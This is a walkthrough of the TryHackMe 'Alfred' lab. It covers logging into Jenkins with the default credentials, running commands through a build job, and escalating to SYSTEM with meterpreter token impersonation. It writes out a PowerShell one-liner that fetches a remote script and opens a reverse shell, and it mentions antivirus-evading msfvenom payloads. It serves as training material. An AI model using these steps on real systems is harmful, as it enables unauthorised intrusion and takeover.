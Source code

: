 # TryHackMe-Alfred


## Rustscan

```bash                                                                                                                      
PORT     STATE SERVICE    REASON          VERSION   
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:                                                    
|   Supported Methods: OPTIONS TRACE GET HEAD POST                        
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5      
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped syn-ack ttl 127  
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT        
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1     
| http-robots.txt: 1 disallowed entry                                     
|_/                                                                       
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
```

## PORT 80 (HTTP)

<img src="https://imgur.com/OzQMPUD.png"/>

Here we don't see anything intersting so let's move to other http port

## PORT 8080 (HTTP)

<img src="https://imgur.com/aXHhYWT.png"/>

We can see jenkins login portal so let's try using the default credentials

`admin:password`

<img src="https://imgur.com/hrO4m40.png"/>

And it didn't work , let's try `admin:admin`

<img src="https://imgur.com/aFModUR.png"/>


This worked are we are in, now we need to find where we can execute commands so we can get a reverse shell on the target machine 

Hover over the `project` you'll get a dropdown menu

 <img src="https://i.imgur.com/15CMp1p.png"/>
You'll have options like "Changes", "Workspace", "Build Now", "Delete Project"," Configure" and "Rename". Select `Configure`

<img src="https://imgur.com/msvm69Y.png"/>

Switch to `Build Environment Tab`

<img src="https://i.imgur.com/yUPIbcb.png"/>

Here you can see there's a command written `whoami` so let's click on `Apply` and `Save`

<img src="https://i.imgur.com/eXEBFF6.png"/>

Click on `#2` then `Console Ouput`

<img src="https://i.imgur.com/H0Bx0xH.png"/>

<img src="https://imgur.com/0S5GrCG.png"/>

And you can see what ever command we input there it will show the output so now what we can do is to host a powershell reverse shell script ,download it using powershell and execute the function in the script to get a shell

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Start your python3 http server

<img src="https://imgur.com/Ffh7FPk.png"/>

And our command will look like this , start a netcat listener

<img src="https://imgur.com/L7kRLea.png"/>

<img src="https://imgur.com/GGcjVVU.png"/>

Now click on `Build Now` and that job will run and you'll get a shell

<img src="https://imgur.com/2LThZZr.png"/>

Generate a msfvenom payload with encoders to by pass AV 

Host it on your local machine and download it by repeating the same method

<img src="https://imgur.com/2px77nI.png"/>

Set up your metasploit listener

<img src="https://imgur.com/IKY1jka.png"/>

<img src="https://imgur.com/G6SR5wL.png"/>

<img src="https://i.imgur.com/uhZl5vx.png"/>

Execute the payload and you'll see a meterpreter session will be popped

<img src="https://i.imgur.com/YF8AsSf.png"/>

Running the command `getprivs` we can see what privileges we have on the machine

<img src="https://i.imgur.com/zaqoz9K.png"/>

Here we can escalate our privleges through `SeImpersonatePrivilege`

Run the command `load icognito` through this module we can impersonate tokens

<img src="https://imgur.com/IbKIzYL.png"/>

<img src="https://imgur.com/macZDV5.png"/>

<img src="https://i.imgur.com/enPc6EW.png"/>

<img src="https://imgur.com/iE8Xsw7.png"/>

<img src="https://imgur.com/Ivy4Yaa.png"/>

Now even though we have SYSTEM on the machine but still we won't be able to access system files as it uses the primary token of the process and not the impersonated token so we need to migrate to a process running as SYSTEM which is `services.exe`

<img src="https://i.imgur.com/ltPg2LG.png"/>

<img src="https://imgur.com/3P3tLr5.png"/>

<img src="https://imgur.com/h1cTVks.png"/>